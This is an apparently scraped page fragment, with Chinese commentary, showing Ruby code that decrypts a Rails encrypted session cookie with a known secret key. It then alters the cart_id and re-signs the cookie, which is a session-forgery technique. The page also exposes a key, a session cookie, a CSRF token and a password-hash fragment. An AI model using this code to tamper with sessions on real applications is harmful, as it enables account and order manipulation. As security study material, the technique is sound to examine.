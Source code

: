 ```
def decrypt_session_cookie(cookie, key)
  cookie = CGI::unescape(cookie)
  salt         = "encrypted cookie"
  signed_salt  = "signed encrypted cookie"

  key_generator = ActiveSupport::KeyGenerator.new(key, iterations: 1000)
  secret = key_generator.generate_key(salt)
  sign_secret = key_generator.generate_key(signed_salt)

  encryptor = ActiveSupport::MessageEncryptor.new(secret, sign_secret, serializer: ActiveSupport::MessageEncryptor::NullSerializer)
  encryptor.decrypt_and_verify(cookie)
end

key = 'a875bedfd1ba629c6c6039597cfd89a5bfb34fc440a0203d649bbd9e06de3e1939a4a586e1ed893108157688782b86b25223853a5b140aba7a21e5df675bed22'
cookie = 'V0JxRVF2UjQ4ZUx5M0tYMFgxN3ZIK092Yy9aY1RSNGJFZ3FIdDgvbUdOZjJxd0tJWHMyRk12bjRpRmMyRm85Qko1bXAwSThHZVA1TnhhZHhNb0hNL3FJQ0c3cVpGVUJ0VVY3N28zU3l6bkRCQkJXdGQ0LzRqR2tCeVVMSzNYbWtIRm1ycEhIejN2L1FmUTFIMktvNGpmWk8yOHFyQXUxZXlBMXd2SHlkV29RaENUdWwxSWsxdlBHVHF2Q0hTYXFoc0RydUd4MXJJMzQ5dm5ZUS9vYURnaWdubnduc1cwK3ExZldpMFVRSmZkUXZRa0FvR3FqQVplZEordE10MzVqTS0tSUs4NCtsZjNRZGRDMjM1ajVzQkRHQT09--f99ee52c228793955481cf56604ca293c96989a4'

j = decrypt_session_cookie(cookie, key)
```

就会解密出一段 JSON 告诉我们用户 id 是 48，购物车 `cart_id` 是 501。

```
"{\"session_id\":\"744813165ee90c30650c4ab8338d8140\",\"cart_id\":501,\"warden.user.user.key\":[[48],\"$2a$11$tpfEqlcCqD/8JRWPtvZTzu\"],\"_csrf_token\":\"zMPrCyTnxvpsPY0OWhPi8sM2suOa3dUFk4HHDyedbIs=\"}"
```

以下代码会修改 cart_id 并可以加密回去：

```
def encrypt_session_cookie(value, key)
  salt         = "encrypted cookie"
  signed_salt  = "signed encrypted cookie"

  key_generator = ActiveSupport::KeyGenerator.new(key, iterations: 1000)
  secret = key_generator.generate_key(salt)
  sign_secret = key_generator.generate_key(signed_salt)

  encryptor = ActiveSupport::MessageEncryptor.new(secret, sign_secret, serializer: ActionDispatch::Cookies::JsonSerializer)
  encryptor.encrypt_and_sign(value)
end

h = JSON.parse(j)
h["cart_id"] = 1
encrypt_session_cookie(h, key)
```
